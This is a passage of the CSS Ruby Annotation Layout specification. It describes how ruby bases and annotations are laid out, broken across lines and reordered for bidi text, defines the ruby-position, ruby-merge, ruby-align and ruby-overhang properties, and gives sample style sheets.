As in other CSS layout models, relative positioning, transforms, and other graphical effects apply after this layout of the boxes.

#### 3.1.  Interlinear Ruby Layout {#css-ruby-1:interlinear-layout}

Interlinear ruby annotations within a level are initially laid out as if they were inline boxes participating in the same inline formatting context, effectively establishing a line box for that level of annotation in the ruby container. Annotations and bases are aligned to each other by adjusting their spacing as described below.

##### 3.1.1.  Inline-axis Interlinear Layout {#css-ruby-1:interlinear-inline}

In the inline axis, interlinear ruby annotations are aligned with respect to their ruby base boxes in accordance with their annotation container’s `ruby-merge` value.

When `ruby-merge` is `separate`, each ruby column is sized to the widest content (ruby base or ruby annotation) in that column. In the case of spanning annotations (whether actually spanning or pretending to span per `ruby-merge: merge`), if the content of a spanning annotation would be wider than the columns that it spans, then the difference is distributed equally among the spanned columns. If a ruby segment contains multiple spanning annotations, this distribution of additional space is performed starting with the spanning annotations that span the least number of bases, and then in increasing number of bases spanned. Each ruby base and ruby annotation is then sized to exactly span its column(s).

> **Note:** If there are multiple annotations in different levels spanning the same number of bases that overlap but do not coincide, the distribution of space is undefined. Note this is not possible with HTML markup, but can happen in markup languages with explicit spanning such as in [RUBY].

If any ruby annotation in an annotation container with `ruby-merge: auto` is wider than its base, then ruby annotations in that annotation container may extend outside of their column(s). When they do, their influence on the measure of the columns they intersect is up to the user agent, provided that the ruby segment is made wide enough to fit all its content.

Inter-character annotations are interleaved between columns: they factor into measurement of annotations that span both adjacent columns, but are not included in either column and are never affected by the sizing or positioning of interlinear annotations.

Within each base and annotation box, how the extra space is distributed when its content is narrower than the measure of the box is specified by its `ruby-align` property.

> **Example:** The following diagrams illustrate these rules, covering typical situations as well as a few more complex ones. In each case, base boxes and annotation boxes are assumed to have `ruby-align: center`, while annotation containers are assumed to have `ruby-align: space-between`.
>
> Blue brackets (`[ ]`) represent base boxes, red brackets (`[ ]`) represent annotation boxes, and gray bars (`|`) represent the limits of ruby columns. Ruby containers, base containers, and annotation containers are omitted.
>
> **Separate / non-spanning:**
>
> : ```
>   |[  a1  ]|[  a2  ]|[annotation-3]|
>   |[base 1]|[base 2]|[   base 3   ]|
>   ```
>
>   Boxes within each column are sized to match the widest box of that column. The value of `ruby-align` on each base box and annotation box is used to distribute the extra space in each box.
>
> **Spanning (short):**
>
> : ```
>   |[  a1  ]|[   short span  ]|
>   |[base 1]|[base 2]|[base 3]|
>   ```
>
>   When a spanning annotation is shorter than the spanned bases, there is no extra space to distribute to these bases. Extra space within the spanning annotation is distributed according to `ruby-align` on that annotation box, as for non spanning ones.
>
> **Spanning (long):**
>
> : ```
>   |[  a1  ]|[spanning annotation]|
>   |[base 1]|[ base 2 ]|[ base 3 ]|
>   ```
>
>   When the spanning annotation is longer than the spanned base boxes, the extra space is distributed equally between them.
>
> **Merged (short):**
>
> : ```
>   |[merged        annotation]|
>   |[base 1]|[base 2]|[base 3]|
>   ```
>
>   A merged annotation behaves similarly to a spanning one, except that distribution of any extra space in it is determined by the value of `ruby-align` on the annotation container, not on any of its annotation boxes.
>
> **Several levels, with spanning annotation:**
>
> : ```
>   |[   a1   ]|[ annotation-2 ]|[   a3   ]|
>   |[long annotation spanning all content]|
>   |[ base 1 ]|[    base 2    ]|[ base 3 ]|
>   ```
>
>   ```
>   |[  xx  ]|[annotation spanning bases]|
>   |[  a1  ]|[ annotation-2 ]|[   a3   ]|
>   |[base 1]|[    base 2    ]|[ base 3 ]|
>   ```
>
>   In these two examples with multiple levels, each column is sized to its longest content, and spanning annotations that are still longer than the sum of the columns that they span grow them further, adding to each equally.
>
> **Several levels, with multiple spanning annotations:**
>
> : ```
>   |[   xx   ]|[  annotation spanning bases  ]|
>   |[   a1   ]|[  annotation-2  ]|[    a3    ]|
>   |[lengthy annotation spanning base content]|
>   |[ base 1 ]|[     base 2     ]|[  base 3  ]|
>   ```
>
>   When there are multiple spanning annotations, those that span fewest bases are processed first. In this case, the green one, which spans two bases, is processed before the orange one, which spans three. Changing this order would change the distribution of space.
>
>   To help identify which spanning annotation is responsible for which extra spacing, in this diagram the color of the text in each spanning annotation is matched with the background color of spacing it adds to other boxes.

##### 3.1.2.  Block-axis Interlinear Layout {#css-ruby-1:interlinear-block}

> **Issue:** Define the extent to which `vertical-align` affects these ruby boxes. See [Issue 4987](https://github.com/w3c/csswg-drafts/issues/4987).

Each base container is then sized and positioned to contain exactly all of its ruby bases’ margin boxes—​and all their associated inter-character ruby annotation margin boxes, if any—​as well as the base and annotation containers of any descendant ruby containers also participating in this inline formatting context. (If a base container has no in-flow content, it is sized and positioned as if it contained a single empty ruby base.)

Each interlinear annotation container is sized and positioned to contain exactly all of its ruby annotations’ margin boxes as well as the base and annotation containers of any descendant ruby containers also participating in this annotation level’s inline formatting context. (If an annotation container has no in-flow content, it is sized and positioned as if it contained a single empty ruby annotation.) These annotation containers are then stacked outward over or under (depending on `ruby-position`) their corresponding base container, without any intervening space, thus determining the block-axis positioning of the ruby annotations with respect to their ruby bases.

> **Issue:** Should block-axis margins collapse? This makes layout more robust, but is inconsistent with how inlines behave along the inline-axis.

#### 3.2.  Inter-character Ruby Layout {#css-ruby-1:inter-character-layout}

Inter-character annotations have special layout. Inter-character ruby annotation boxes are spliced into and measured as part of the layout of the base level. Each ruby annotation is inserted to the right of the ruby base it is paired with; a spanning inter-character annotation is placed after the rightmost of all the bases that it spans. Inter-character ruby annotations are laid out exactly like inline blocks, except as described below.

> **Note:** As per the definition of `inter-character`, inter-character annotations always have a `vertical-rl` `writing-mode`, and only exist in horizontal ruby containers.

Each ruby annotation is placed immediately to the right of the relevant ruby base, before any inter-base white space (or inter-segment white space). If multiple inter-character ruby annotation boxes are placed against the same ruby base, their margin boxes are stacked rightwards without intervening space, in increasing level order.

If the automatic height of the ruby annotation box’s content area would be shorter than the height of the content box of the ruby base after which it is placed, its content box height is increased to match that height exactly.

The alignment of the ruby annotation box depends on the `ruby-align` property on the ruby annotation:

- If `ruby-align` is `start`, the top edge of the ruby annotation’s content box is aligned with the top edge of the ruby base’s content box.
- Otherwise, the center of the ruby annotation’s content box is vertically aligned with the center of the ruby base’s content box.

The ruby annotation container box of an inter-character annotation is sized and placed so that its content box coincides exactly with that of the ruby base container box.

> **Note:** The size and position of inter-character ruby annotation container boxes has no effect on layout. The above definition is merely so that programmatically inquiring about them produces deterministic results.

For the purpose of [alignment](#css-ruby-1:ruby-align-property) and column sizing (as discussed in [§ 3 Ruby Layout](#css-ruby-1:ruby-layout)), inter-character ruby annotations are not considered to be part of the same column as the base to with they are attached; rather, they effectively form a column of their own.

#### 3.3.  Styling Ruby Boxes {#css-ruby-1:box-style}

Ruby bases and ruby containers are treated as inline boxes, and all properties that apply to inline boxes, unless otherwise specified, also apply to them in the same way. However, the line-relative shift values of `vertical-align` (`top`, `bottom`) must be ignored (treated as zero).

All properties that apply to inline boxes, unless otherwise specified, also apply to ruby annotations in the same way, except `line-height`, which does not apply. Also, the line-relative shift values of `vertical-align` (`top`, `bottom`) must be ignored (treated as zero).

Neither the margin, padding, and border properties nor any of the properties that do not apply to inline boxes apply to base containers or annotation containers. Additionally, `line-height` does not apply to annotation containers.

The UA is not required to support any of the background properties or outline properties, or any other property that illustrates the bounds of the box on ruby base container boxes or ruby annotation container boxes. The UA may implement these boxes simply as abstractions for inheritance and control over the layout of their contents.

#### 3.4.  Breaking Across Lines {#css-ruby-1:line-breaks}

When there is not enough space for an entire ruby container to fit on the line, the ruby may be broken wherever all levels simultaneously allow a break. (See [CSS Text 3 § 5 Line Breaking and Word Boundaries](#css-text-4:line-breaking) for details on line breaking.) Ruby most often breaks between base-annotation sets, but if the line-breaking rules allow it, can also break within a ruby base (and, in parallel, its associated ruby annotation boxes).

Whenever ruby breaks across lines, ruby annotations must stay with their respective ruby bases. The line *must not* break between a ruby base and its annotations, even in the case of inter-character annotations.


`inter-character` ruby line breaking opportunity

After line-breaking, each fragment is [laid out](#css-ruby-1:ruby-layout) independently, and [ruby alignment](#css-ruby-1:ruby-align-property) takes place within each fragment.

##### 3.4.1.  Breaking Between Bases {#css-ruby-1:break-between}

In typical cases, ruby base boxes and ruby annotation boxes are styled to forbid internal line wrapping and do not contain forced breaks. (See [Appendix A](#css-ruby-1:default-stylesheet).) In such cases the ruby container can only break between adjacent ruby bases, and only if no ruby annotations span those ruby bases.


Ruby line breaking opportunity

Whether ruby can break between two adjacent ruby bases is controlled by normal line-breaking rules for the base text, exactly as if the ruby bases were adjacent inline boxes. (The annotations are ignored when determining soft wrap opportunities for the base level.)

> **Example:** For example, if two adjacent ruby bases are “蝴” and “蝶”, the line may break between them, because lines are normally allowed to break between two Han characters. However, if `word-break` is `keep-all`, that line break is forbidden.
>
> ```
> <ruby>蝴<rt>hú</rt>蝶<rt>dié</rt>
> ```

Inter-base white space is significant for evaluating line break opportunities between ruby bases. As with white space between inlines, it collapses when the line breaks there, following the rules detailed in [CSS Text 3 § 4.1 The White Space Processing Rules](#css-text-4:white-space-rules). Similarly, annotation white space is also trimmed at a line break.

> **Example:** For example, given the following markup:
>
> ```
> <ruby><rb>one</rb> <rb>two</rb> <rt>1</rt> <rt>2</rt></ruby>
> ```
>
> Due to the space, the line may break between “one” and “two“. If the line breaks there, that space—and the space between “1” and “2”—disappears, in accordance with standard CSS white space processing rules.

##### 3.4.2.  Breaking Within Bases {#css-ruby-1:break-within}

For longer base texts, it is sometimes appropriate to allow breaking within a base-annotation pair. For example, if an English sentence is annotated with its Japanese translation, allowing the text to wrap allows for reasonable line breaking behavior in the paragraph.

> **Issue:** Insert scanned example so people don’t think this is just the ramblings of an insane spec-writer.

Line-breaking within a ruby base is only allowed if the `white-space` property of the ruby base and all its parallel annotations allow it, and there exists a soft wrap opportunity *within* (i.e. not at the start or end) the content of each base/annotation box. Since there is no structural correspondence between fragments of content within ruby bases and annotations, the UA may break at any set of opportunities; but it is recommended that the UA attempt to proportionally balance the amount of content inside each fragment.

There are no line breaking opportunities within inter-character annotations.

#### 3.5.  Bidi Reordering {#css-ruby-1:bidi}

The Unicode bidirectional algorithm reorders logically-stored text for visual presentation when characters from scripts of opposing directionalities are mixed within a single paragraph.

To preserve the correspondence of ruby annotations to their respective ruby bases, a few restrictions must be imposed:

- The contents of a ruby base or ruby annotation must remain contiguous.
- Ruby annotations must be reordered together with their ruby bases.
- All ruby bases spanned by a single ruby annotation must remain contiguous.

To this end,

- Bidi isolation is forced on all internal ruby boxes and the ruby container: the `normal` and `embed` values of `unicode-bidi` compute to `isolate`, and `bidi-override` computes to `isolate-override`.

  > **Note:** This means that implicit bidi reordering does not work across ruby bases, so authors will need to ensure that the ruby container’s declared directionality does indeed match its contents.
- During layout, ruby segments are ordered within the ruby container by the `direction` property of their ruby container.
- Within a segment, ruby bases and ruby annotations that are not merged are ordered within their respective containers by the `direction` property of the segment’s ruby base container. Merged annotations are ordered by the `direction` property of their annotation container, exactly as if they were a sequence of inline boxes within their annotation container.

  > **Note:** This means the `direction` property on ruby annotation containers is ignored for the purpose of layout of non-merged annotations. However, it can still inherit into the container’s children and thereby affect the inline base direction of any ruby annotations it contains.

As with other inline-level content, the bidi reordering of internal ruby boxes happens after line-breaking so that content is divided across lines according to its logical order.

> **Note:** It could be useful to adjust these rules slightly so that when `ruby-merge` is `merge` on a particular annotation container, bidi isolation is not forced onto the individual annotations, enabling them to be processed together. However, this would add complexity to implementations, which does not seem justified in the absence of demand to handle this situation. Anyone with a need for this to be handled is encouraged to contact the CSS Working Group.

See [CSS3-WRITING-MODES] for a more in-depth discussion of bidirectional text in CSS.

#### 3.6.  Line Spacing {#css-ruby-1:line-height}

The `line-height` property controls spacing between lines in CSS. When inline content on line is shorter than the `line-height`, half-leading is added on either side of the content, as specified in [CSS Inline Layout 3 § 5 Logical Heights and Inter-line Spacing](#css-inline-3:line-height).

In order to ensure consistent spacing of lines, documents with ruby typically ensure that the `line-height` is large enough to accommodate ruby between lines of text. Therefore, ordinarily, ruby annotation containers and ruby annotation boxes do not contribute to the measured height of a line’s inline contents; any alignment (see `vertical-align`) and line-height calculations are performed using only the ruby base container, exactly as if it were a normal inline.

However, if the `line-height` specified on the ruby container is less than the distance between the top of the top ruby annotation container and the bottom of the bottom ruby annotation container, then additional leading is added on the appropriate side(s) of the ruby base container such that if a block consisted of three lines each containing ruby identical to this, none of the ruby containers would overlap.

> **Note:** This does not ensure that the ruby annotations remain within the line box. It merely ensures that *if all lines had equal spacing* and equivalent amounts and positioning of ruby annotations, there would be enough room to avoid overlap.

Authors should ensure appropriate `line-height` and `padding` to accommodate ruby, and be particularly careful at the beginning or end of a block and when a line contains inline-level content (such as images, inline blocks, or elements shifted with `vertical-align`) taller than the paragraph’s default font size.


Ruby annotations will often overflow the line; authors should ensure content over/under a ruby-annotated line is adequately spaced to leave room for the ruby.

> **Note:** More control over how ruby affects alignment and line layout will be part of the CSS Line Layout Module Level 3. Note, it is currently in the exploratory stages of development; descriptions of new features should not yet be relied upon.

### 4.  Ruby Formatting Properties {#css-ruby-1:ruby-props}

The following properties are introduced to control ruby [positioning](#css-ruby-1:rubypos), [text distribution](#css-ruby-1:collapsed-ruby), and [alignment](#css-ruby-1:rubyalign).

#### 4.1.  Ruby Positioning: the `ruby-position` property {#css-ruby-1:rubypos}

| Field | Value |
| --- | --- |
| Name: | **ruby-position** |
| [Value:](#css-values-4:value-defs) | [ alternate \|\| [ over \| under ] ] \| inter-character |
| [Initial:](#css-cascade-6:initial-values) | alternate |
| [Applies to:](#css-cascade-5:applies-to) | ruby annotation containers |
| [Inherited:](#css-cascade-5:inherited-property) | yes |
| [Percentages:](#css-values-4:percentages) | n/a |
| [Computed value:](#css-cascade-6:computed) | specified keyword |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | discrete |

This property controls position of the ruby annotation with respect to its base. Values have the following meanings:

****alternate****

: Different levels of annotations alternate between `over` and `under`.

  If the annotation container is the first level of annotation in its ruby segment, or if all prior levels are inter-character, then `alternate`, either on its own or in combination with `over`, behaves the same as `over`, while `alternate` in combination with `under` behaves the same as `under`.

  Otherwise, if the previous level of interlinear annotation is `over`, `alternate` behaves like `under`, and vice versa. (In this case, whether `alternate` is specified alone or in combination with `over` or `under` makes no difference.)

****over****

: The ruby annotation appears line-over the base.

  

  Ruby over Japanese base text in horizontal layout

  

  Ruby to the right of Japanese base text in vertical layout

****under****

: The ruby annotation appears line-under the base. This is a relatively rare setting used in ideographic East Asian writing systems, most easily found in educational text.

  

  Ruby under Japanese base text in horizontal layout

  

  Ruby to the left of Japanese base text in vertical layout

****inter-character****

: If the writing mode of the enclosing ruby container is vertical, this value has the same effect as `over`.

  Otherwise, the ruby annotation becomes an **inter-character annotation**. The annotation appears on the right of the base in horizontal text. This forces the computed value of `writing-mode` of the ruby annotation children of this ruby annotation container to be `vertical-rl`.

  > **Note:** The computed value of `writing-mode` on the ruby annotation container itself is not affected. This is to avoid circular dependencies between computed values on the `writing-mode`, `display`, and `ruby-position` properties on the same element.

  This value is provided for the special case of traditional Chinese as used especially in Taiwan: ruby (made of [bopomofo](#css-ruby-1:g-bopomofo) glyphs) in that context appears vertically along the right side of the base glyph, even when the layout of the base characters is horizontal:

  

  “Bopomofo” ruby in traditional Chinese (ruby annotation shown in blue for clarity) in horizontal layout

  > **Note:** As inheritance works on the element tree without accounting for anonymous boxes created for ruby layout, when using inter-character annotations authors need to be careful to avoid markup patterns involving an element-based ruby annotation container, an anonymous ruby annotation, and further descendant elements, as those descendants would inherit their writing mode from the ruby annotation container, and not from the ruby annotation whose `writing-mode` has been changed to `vertical-rl`.
  >
  > > **Example:** ```
  > > ruby { ruby-position: inter-character; }
  > > ```
  > >
  > > ```
  > > <ruby>base<rtc><em>problematic</em> annotation</ruby>
  > > ```
  > >
  > > In the above markup, an anonymous ruby annotation box is created as a child of the `<rtc>` element to wrap the whole “problematic annotation”. Since it is a child of an annotation container whose `ruby-position` is `inter-character`, its `writing-mode` will be `vertical-rl`, which is expected. However, the `<em>` element inherits its `writing-mode` directly from the `<rtc>` element, which has not been forced to `vertical-rl`.
  > >
  > > In this example, the explicit ruby annotation container element was not necessary, so using a ruby annotation element instead would avoid the problem:
  > >
  > > ```
  > > <ruby>base<rt><em>problematic</em> annotation</ruby>
  > > ```
  > >
  > > If an explicit ruby annotation container element is needed, then using a ruby annotation element as well would also address the problem:
  > >
  > > ```
  > > <ruby>base<rtc><rt><em>problematic</em> annotation</ruby>
  > > ```

Annotation containers that are not inter-character annotations are called **interlinear annotations**.

If multiple ruby annotation containers have the same `ruby-position`, they stack outwards from the base text.

#### 4.2.  Sharing Annotation Space: the `ruby-merge` property {#css-ruby-1:collapsed-ruby}

| Field | Value |
| --- | --- |
| Name: | **ruby-merge** |
| [Value:](#css-values-4:value-defs) | separate \| merge \| auto |
| [Initial:](#css-cascade-6:initial-values) | separate |
| [Applies to:](#css-cascade-5:applies-to) | interlinear ruby annotation containers |
| [Inherited:](#css-cascade-5:inherited-property) | yes |
| [Percentages:](#css-values-4:percentages) | n/a |
| [Computed value:](#css-cascade-6:computed) | specified keyword |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | by computed value type |

This property controls how ruby annotation boxes should be rendered when there are more than one in a ruby container box: whether each pair should be kept separate, the annotations should be **merged** and rendered as a group, or the separation should be determined based on the space available.

> **Note:** Inter-character annotations are always separate, and this property does not apply.

Possible values:

****separate****

: Each ruby annotation box is rendered within the same column(s) as its corresponding base box(es), i.e. without overlapping adjacent bases on either side. This style is called “mono ruby” in [JLREQ].

  

  `ruby-merge: separate` with center alignment

  > **Example:** For example, the following two lines render the same:
  >
  > ```
  > <p><ruby>無<rt>む</ruby><ruby>常<rt>じょう</ruby>
  > <p><ruby style="ruby-merge:separate"><rb>無<rb>常<rt>む<rt>じょう</ruby>
  > ```

****merge****

: All ruby annotation boxes within the same ruby segment on the same line are concatenated as inline boxes within their annotation container, and laid out in a single anonymous ruby annotation box spanning all their associated ruby base boxes. When laid out on a single line, this style renders similar to “group ruby” in [JLREQ]. However, when it breaks across lines, ruby annotations are kept together with their respective ruby bases.

  

  `ruby-merge: merge` with center alignment

  > **Example:** The following two lines render the same if both characters fit on one line:
  >
  > ```
  > <p><ruby>無常<rt>むじょう</ruby>
  > <p><ruby style="ruby-merge:merge"><rb>無<rb>常<rt>む<rt>じょう</ruby>
  > ```
  >
  > However, the second one renders the same as `ruby-position: separate` when the two bases are split across lines.

****auto****

: The user agent may use any algorithm to determine how each ruby annotation box is rendered to its corresponding base box, with the intention that if all annotations fit over their respective bases, the result is identical to `separate`, but if some annotations are wider than their bases the space is shared in some way to avoid imposing space between bases.

  

  `ruby-merge: auto` with center alignment

  > **Note:** This behavior is intended for compound words, see [“Jukugo Ruby” in “What is ruby?”](https://www.w3.org/International/questions/qa-ruby#jukugo). [QA-RUBY]
  >
  > There are various conventions for rendering this type of ruby, see [Placement of Jukugo-ruby](https://www.w3.org/TR/simple-ruby/#placement-of-jukugo-ruby) in [SIMPLE-RUBY], [Positioning of Jukugo-ruby](https://www.w3.org/TR/jlreq/#positioning_of_jukugoruby_with_respect_to_base_characters) in [JLREQ], and 4.12.3(c) 熟語ルビの処理 in [JISX4051] for examples of varying complexity.
  >
  > The simplest of these is to render as `separate` if all ruby annotation boxes fit within the advances of their corresponding base boxes, and render as `merge` otherwise.

> **Note:** Text does not shape or form ligatures across ruby annotations or bases, even merged ones, due to bidi isolation. See [§ 3.5 Bidi Reordering](#css-ruby-1:bidi) and [CSS Text 3 § 7.3 Shaping Across Element Boundaries](#css-text-4:boundary-shaping).

#### 4.3.  Ruby Text Distribution: the `ruby-align` property {#css-ruby-1:ruby-align-property}

| Field | Value |
| --- | --- |
| Name: | **ruby-align** |
| [Value:](#css-values-4:value-defs) | start \| center \| space-between \| space-around |
| [Initial:](#css-cascade-6:initial-values) | space-around |
| [Applies to:](#css-cascade-5:applies-to) | ruby bases, ruby annotations, ruby base containers, ruby annotation containers |
| [Inherited:](#css-cascade-5:inherited-property) | yes |
| [Percentages:](#css-values-4:percentages) | n/a |
| [Computed value:](#css-cascade-6:computed) | specified keyword |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | by computed value type |

This property specifies how text is distributed within the various ruby boxes when their contents do not exactly fill their respective boxes. Note that space distributed by `ruby-align` is unrelated to, and independent of, any space distributed due to justification.

For inter-character annotations, this property can also affect the alignment of the box itself (see [§ 3.2 Inter-character Ruby Layout](#css-ruby-1:inter-character-layout)). It otherwise only affects the alignment of content within the box, not the size or position of the box itself.

Values have the following meanings:

****start****

: The ruby content is aligned with the start edge of its box.

   

  `start` ruby distribution

  > **Issue:** "Katatsuki ruby" (肩付きルビ) is close to, but not quite the same as, this `start` value. In particular, its behavior when overhanging its base can differ from start alignment depending on surrounding context, see [JLREQ](https://www.w3.org/TR/jlreq/#positioning_of_monoruby_with_respect_to_base_characters). Also, it’s only ever used in vertical writing, and the JLTF considers it not particularly important, so it may not be worth the effort to make this value smart enough to deal with katatsuki ruby. If `start` is needed for some other purpose, we should keep it. Otherwise, maybe just drop it?

****center****

: The ruby content is centered within its box.

   

  `center` ruby distribution

****space-between****

: The ruby content expands as defined for normal text justification (as defined by `text-justify`), except that if there are no justification opportunities the content is centered.

   

  `space-between` ruby distribution

****space-around****

: As for `space-between` except that there exists an extra justification opportunities whose space is distributed half before and half after the ruby content.

   

  `space-around` ruby distribution

> **Example:** The [default UA style sheet](#css-ruby-1:default-ua-ruby) applies `text-justify: ruby` to ruby annotations, defining justification opportunities between every adjacent pair of CJK characters but not between adjacent pairs of Latin or Bopomofo characters. Thus, the `space-around` and `space-between` values will nevertheless result in Latin or Bopomofo characters centered:
>
>  
>
> Non-CJK ruby text in `space-around` and `space-between` ruby distribution are centered
>
> The distribution of space can be controlled via `text-justify`. [CSS-TEXT-3]

Content in ruby bases and ruby annotations, except those that span due to `ruby-merge: merge`, is aligned within its box based on the value of `ruby-align` on that box. Content in merged annotations is aligned within the ruby annotation container based on the value of `ruby-align` on the annotations container, ignoring the value of `ruby-align` on the individual ruby annotations.

> **Issue:** What if a merged annotation causes the ruby segment to be wider? Does it cause each base to grow as if it were spanning them, as currently specified? This does not allow e.g. centering the text in a multi-base base container when its merged annotation is longer. Instead, maybe we should allow ruby-merge to apply to base containers as well, but this would require us either to allow a single base to span multiple annotations (if the base is merged but some annotation levels are not), or to require that if the base is merged, then all annotation levels must be merged as well.

The way content is aligned when `ruby-merge` is `auto` is up to the user agent, but must be identical to that of `ruby-merge: separate` when all annotations fit over their respective bases.

#### 4.4.  Ruby Text Decoration {#css-ruby-1:ruby-text-decoration}

Text decoration does not propagate from the base text to the annotations.

When text decoration is specified on an ancestor of the ruby, it is drawn across the entire content area of the ruby base container, including any extra space added on either side of the ruby base contents to accommodate long annotations. When text decoration is specified on a ruby base itself, this extra space is not decorated, similar to how a box’s own padding is not decorated when text decoration is specified directly on that box. [CSS3-TEXT-DECOR]

Text decoration may be specified directly on ruby base containers and ruby annotation containers: in such cases it is propagated to all of the container’s bases or annotations (respectively), and is also drawn between them for continuity.

The positions of ruby annotations may be adjusted to avoid potential conflicts with overline and underline decorations applied to the base text. In the basic case of consistent font size and baseline alignment, an underline or overline is positioned between the base level and any annotations on that side.

> **Issue:** This section needs some clarification about drawing decorations between the content of adjacent bases/annotations. Depends on if those boxes are as wide as their column or not.

### 5.  Edge Effects {#css-ruby-1:edge-effects}

#### 5.1.  Overhanging Ruby: the `ruby-overhang` property {#css-ruby-1:ruby-overhang}

| Field | Value |
| --- | --- |
| Name: | **ruby-overhang** |
| [Value:](#css-values-4:value-defs) | auto \| spaces |
| [Initial:](#css-cascade-6:initial-values) | auto |
| [Applies to:](#css-cascade-5:applies-to) | ruby annotation containers |
| [Inherited:](#css-cascade-5:inherited-property) | yes |
| [Percentages:](#css-values-4:percentages) | n/a |
| [Computed value:](#css-cascade-6:computed) | specified keyword |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | by computed value type |

The `ruby-overhang` property controls whether ruby annotations may overlap adjacent text outside the ruby container. Values have the following meanings:

****auto****

: When a ruby annotation container is longer than its corresponding ruby base container, the ruby annotation container may partially overlap adjacent boxes.

  Whether, how much, and under which conditions to overhang are determined by the UA.

****spaces****

: When a ruby annotation container is longer than its corresponding ruby base container, the ruby annotation container must not overlap adjacent boxes, except over adjacent spaces.

  For this purpose, spaces are any of the following:

  - preserved white space
  - no-break space (U+00A0)
  - other space separators
  - half of the advance measure of fullwidth opening punctuation, on the inline-start side of the character, unless it has been trimmed by `text-spacing-trim`
  - half of the advance measure of fullwidth closing punctuation, on the inline-end side of the character, unless it has been trimmed by `text-spacing-trim`
  - one quarter of the advance measure of fullwidth middle dot punctuation, on both the inline-start and inline-end sides of the character, unless it has been trimmed by `text-spacing-trim`

When ruby annotations are not allowed to overhang, the ruby container behaves like a traditional inline box, i.e. only its own contents are rendered within its boundaries and adjacent elements do not cross the box boundary:


Simple ruby whose text is not allowed to overhang adjacent text

However, if a ruby annotation container is allowed to overhang, neighbouring content may overlap the ruby container box, allowing its ruby annotation(s) to partially render over/under surrounding inline-level content. Overhang is only allowed to the extent that it does not cause collisions between the neighboring content and the ruby container’s annotation boxes or its overlapped base’s contents.


Simple ruby whose text is allowed to overhang adjacent text

> **Note:** Whether ruby annotations related to a ruby base can overhang another ruby base is controlled by `ruby-merge`.

Typically, the alignment of the contents of the base or the annotation is not affected by overhanging behavior: alignment and space distribution (see `ruby-align`) is achieved the same way regardless of the overhang allowance, and is computed before the space available for overlap is determined. However, UAs may consider allowed overhang when determining space distribution and/or alignment of annotations and bases.

> **Issue:** I suspect overhanging interacts with alignment in some cases; might need to look into this later.

> **Example:** The user agent may use [JIS4051] recommendation of using [`0.5ic`](#css-values-4:ic) (half of a full-width character) in the annotation’s font as the maximum overhang length. Detailed rules for how ruby text can overhang adjacent characters for Japanese are described by [JLREQ].

Additionally, for compatibility reasons, user agents must support an additional value of **none** for the `ruby-overhang` property, as a legacy value alias of `spaces`.

#### 5.2.  Line-edge Alignment {#css-ruby-1:line-edge}

When a ruby annotation box that is longer than its ruby base is at the start or end edge of a line, the user agent *may* force the side of the ruby annotation that touches the edge of the line to align to the corresponding edge of the base. This type of alignment is described by [JLREQ].

This level of the specification does not provide a mechanism to control this behavior.

 

Line-edge alignment

### Appendix A: Sample Style Sheets {#css-ruby-1:default-stylesheet}

*This section is informative.*

#### A.1 Default UA Style Sheet {#css-ruby-1:default-ua-ruby}

The following represents a default UA style sheet for rendering HTML and XHTML ruby markup as ruby layout:

```
ruby { display: ruby; }
rp   { display: none; }
rbc  { display: ruby-base-container; }
rtc  { display: ruby-text-container; }
rb   { display: ruby-base; white-space: nowrap; }
rt   { display: ruby-text; }
ruby, rb, rt, rbc, rtc { unicode-bidi: isolate; }

rtc, rt {
  font-variant-east-asian: ruby;  /* See [[CSS-FONTS-3]] */
  text-justify: ruby;             /* See [[CSS-TEXT-4]] */
  text-emphasis: none;            /* See [[CSS-TEXT-DECOR-3]] */
  white-space: nowrap;
  line-height: 1; }

rtc, :not(rtc) > rt {
  font-size: 50%; }
rtc:lang(zh-TW), :not(rtc) > rt:lang(zh-TW),
rtc:lang(zh-Hanb), :not(rtc) > rt:lang(zh-Hanb), {
  font-size: 30%; }               /* bopomofo */
```

> **Note:** Authors should not use the above rules: a UA that supports ruby layout should provide these by default.

UAs implementing a user-controlled “minimum font size” feature should consider scaling that minimum down for ruby annotations.

#### A.2 Inlining Ruby Annotations {#css-ruby-1:default-inline}

The following represents a sample style sheet for rendering HTML and XHTML ruby markup as inline annotations:

```
ruby, rb, rt, rbc, rtc, rp {
  display: inline; white-space: inherit;
  font: inherit; text-emphasis: inherit; }
```

#### A.3 Generating Parentheses {#css-ruby-1:default-parens}

Unfortunately, because Selectors cannot match against text nodes, it’s not possible with CSS to express rules that will automatically and correctly add parentheses to unparenthesized ruby annotations for all possible ruby markup patterns in HTML. (This is because HTML ruby allows implying the ruby base from raw text without a corresponding element.)

However, these rules will add parentheses around each annotation sequence in cases where either `<rb>` or `<rtc>` is used rigorously:

```
/* Parens around <rtc> */
rtc::before { content: "（"; }
rtc::after  { content: "）"; }

/* Parens before first <rt> not inside <rtc> */
rb  + rt::before,
rtc + rt::before { content: "（"; }

/* Parens after <rt> not inside <rtc> */
rb ~ rt:last-child::after,
rt + rb::before  { content: "）"; }
rt + rtc::before { content: "）（"; }
```

Alternatively, if it is known that a purely alternating style of markup is used (`<ruby>A<rt>a</rt>B<rt>b</rt>C<rt>c</rt><ruby>`) where there are no adjacent ruby annotations, the following rules will add parentheses around each annotation:

```
/* Parens around each <rt> */
rt::before { content: "（"; }
rt::after  { content: "）"; }
```

### 6.  Glossary {#css-ruby-1:glossary}

****Bopomofo** or **Zhuyin Fuhao** (Chinese: ㄅㄆㄇㄈ, 注音符號, or 注音符号)**

: Characters and tone markings developed for use as phonetics in Chinese, especially standard Mandarin. These are often, but not exclusively, used for ruby annotations.

  

  Example of Bopomofo used as phonetic inter-character annotations in Chinese

  **Bopomofo tone marks** are spacing characters that occur (in memory) at the end of each bopomofo syllable. They are typically displayed in a separate track to the right of or above the other bopomofo characters, and the position of the tone mark depends on the number of characters in the syllable. The neutral tone mark, however, is placed before (and in line with) the bopomofo, not alongside it.

  > **Note:** The user agent and font subsystem are responsible for ensuring the correct relative alignment and positioning of glyphs, including bopomofo tone marks, when displaying text—​whether the text occurs in ruby annotations or as normal inline content. Such glyph placement is not a function of CSS ruby layout.

